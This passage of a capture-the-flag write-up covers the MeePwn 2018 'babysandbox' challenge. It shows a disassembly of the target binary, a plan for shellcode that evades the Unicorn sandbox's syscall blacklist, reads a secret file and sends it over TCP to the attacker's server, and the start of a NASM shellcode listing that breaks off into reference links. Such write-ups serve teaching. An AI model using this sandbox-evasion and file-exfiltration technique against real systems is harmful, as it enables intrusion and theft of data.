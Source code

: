 │           0x000007b2      e8fcffffff     call 0x7b3                  ; RELOC 32 close
│           0x000007b7      83c410         add esp, 0x10
│           0x000007ba      a100000000     mov eax, dword [0]          ; RELOC 32
│           0x000007bf      83ec0c         sub esp, 0xc
│           0x000007c2      50             push eax
│           0x000007c3      e8fcffffff     call 0x7c4                  ; RELOC 32 close
│           0x000007c8      83c410         add esp, 0x10
│           0x000007cb      8b45f4         mov eax, dword [local_ch]
│           0x000007ce      ffd0           call eax
│           0x000007d0      b800000000     mov eax, 0
│           0x000007d5      8b4dfc         mov ecx, dword [local_4h]
│           0x000007d8      c9             leave
│           0x000007d9      8d61fc         lea esp, [ecx - 4]
└           0x000007dc      c3             ret
[0x00000740]>
{% endhighlight %}

In short, it `mmap`s a region in memory with `(PROT_READ | PROT_WRITE | PROT_EXEC)` attributes, payload is `read` from stdin, `mprotect` is called to remove the `PROT_WRITE` attribute and finally the payload gets executed using `call eax`.


## 0x02 The attack plan
My basic and naïve approach is as follows:
1. Send a base64 encoded shellcode over HTTP.
2. The shellcode should read a file in order to extract the flag.
3. Since the payload is passed to the process without returning its response over HTTP, we need to communicate back the results via another medium. I chose sockets over TCP to send this data back to my server.
4. The shellcode should not use any of the blacklisted syscalls in order to bypass the Unicorn sandbox.
5. Avoid null bytes in the resulting shellcode as it might be interpreted as end of string during the attack.
6. Setup a remote server that listens on a port to receive the response from the shellcode.


## 0x03 The attack
To read the content of a file, we need two syscalls: [`open`][opensyscall] and [`read`][readsyscall]. These two syscalls are not allowed. I found this handy [syscall list][syscalllist] and scrolled through it. The following two syscalls were of interest [`openat`][openatsyscall] and [`readv`][readvsyscall] although they need to be used in a certain way. This took some time to figure out and especially debug. This in combination with socket functions made the assembly code relatively lengthy and challenging for this newbie who's used to write only helloworld assembly programs. Luckily there was enough space for the shellcode so I didn't have to optimize the length of the shellcode too much.

{% highlight nasm %}
BITS 32

section .text
global _start

_start:
    xor eax, eax
    push eax
    push eax
    push 0x7478742e
    push 0x74657263
    push 0x65732f65
    push 0x74617669
    push 0x72702f78
    push 0x6f62646e
    push 0x61737962
    push 0x61622f65
    push 0x6d6f682f ; "/home/babysandbox/private/secret.txt0x00"


[securityexchangeteam]: https://security.meta.stackexchange.com/questions/1117/a-security-stackexchange-ctf-team
[meepwn2018ctf]: https://ctftime.org/event/625
[app.py]: /assets/files/meepwn2018ctf-babysandbox/app.py
[bin.elf]: /assets/files/meepwn2018ctf-babysandbox/bin.elf
[opensyscall]: http://man7.org/linux/man-pages/man2/open.2.html
[readsyscall]: http://man7.org/linux/man-pages/man2/read.2.html
[syscalllist]: https://syscalls.kernelgrok.com/
[openatsyscall]: http://man7.org/linux/man-pages/man2/openat.2.html
[readvsyscall]: http://man7.org/linux/man-pages/man2/readv.2.html
[getdentssyscall]: http://man7.org/linux/man-pages/man2/getdents.2.html
[flaskapp]: https://stackoverflow.com/questions/22463939/demystify-flask-app-secret-key
[missedflag]: /assets/files/meepwn2018ctf-babysandbox/images/missed_flag.png
[readdir]: /assets/files/meepwn2018ctf-babysandbox/readdir.s
[readfile]: /assets/files/meepwn2018ctf-babysandbox/readfile.s
[nullfree]: /assets/files/meepwn2018ctf-babysandbox/images/nullfree.png
[gilles]: https://security.stackexchange.com/users/414/gilles
[sysenter]: https://stackoverflow.com/questions/12806584/what-is-better-int-0x80-or-syscall
[workingsysenter]: https://reverseengineering.stackexchange.com/questions/2869/how-to-use-sysenter-under-linux
[externalwriteup]: https://devel0pment.de/?p=680
[execveat]: http://man7.org/linux/man-pages/man2/execveat.2.html
[pwnbox]: https://github.com/0xM3R/cgPwn
[x64mode]: https://github.com/ssspeedgit00/CTF/tree/master/2018/meepwn/babysandbox